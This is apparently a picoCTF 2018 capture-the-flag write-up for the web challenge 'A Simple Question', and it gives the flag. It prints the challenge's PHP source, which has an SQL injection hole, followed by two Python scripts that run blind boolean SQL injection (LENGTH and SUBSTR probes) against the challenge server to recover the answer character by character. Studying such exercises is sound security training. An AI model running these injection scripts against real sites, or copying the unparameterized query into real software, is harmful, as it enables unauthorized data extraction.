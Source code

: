 :checkered_flag: picoCTF{qu3stions_ar3_h4rd_28fc1206}

## Solve
There is a website running at `http://2018shell.picoctf.com:2644` ([link](http://2018shell.picoctf.com:2644)). Try to see if you can answer its question.

## Solution
```php
<!-- http://2018shell.picoctf.com:2644/answer2.phps -->
<?php
  include "config.php";
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  $answer = $_POST["answer"];
  $debug = $_POST["debug"];
  $query = "SELECT * FROM answers WHERE answer='$answer'";
  echo "<pre>";
  echo "SQL query: ", htmlspecialchars($query), "\n";
  echo "</pre>";
?>
<?php
  $con = new SQLite3($database_file);
  $result = $con->query($query);

  $row = $result->fetchArray();
  if($answer == $CANARY) {
    echo "<h1>Perfect!</h1>";
    echo "<p>Your flag is: $FLAG</p>";
  }
  elseif ($row) {
    echo "<h1>You are so close.</h1>";
  } else {
    echo "<h1>Wrong.</h1>";
  }
?>
```
```python
import requests

for i in range(1, 100):
    data = {"answer": f"' OR LENGTH(answer) = {i} --"}
    resp = requests.post("http://2018shell.picoctf.com:2644/answer2.php", data=data)    
    if "Wrong." not in resp.text.split("\n")[3]:
        print(f"LENGTH(answer) = {i}")
        break
        
# LENGTH(answer) = 14
```

```python
import requests
from itertools import chain

answer = ""

for i in range(1, 15):
    for j in chain(range(48, 58), range(65, 91), range(97, 123)):
        data = {"answer": f"' OR SUBSTR(answer, {i}, 1) = '{chr(j)}"}
        resp = requests.post("http://2018shell.picoctf.com:2644/answer2.php", data=data)
        if "Wrong." not in resp.text.split("\n")[3]:
            answer += chr(j)
            print(answer)
            break

'''
4
41
41A
41An
41And
41AndS
41AndSi
41AndSix
41AndSixS
41AndSixSi
41AndSixSix
41AndSixSixt
41AndSixSixth
41AndSixSixths
'''
```

![1](https://raw.githubusercontent.com/shoulderhu/wordpress/master/picoCTF/2018/Web%20Exploitation/A%20Simple%20Question/A-Simple-Question-1.png)
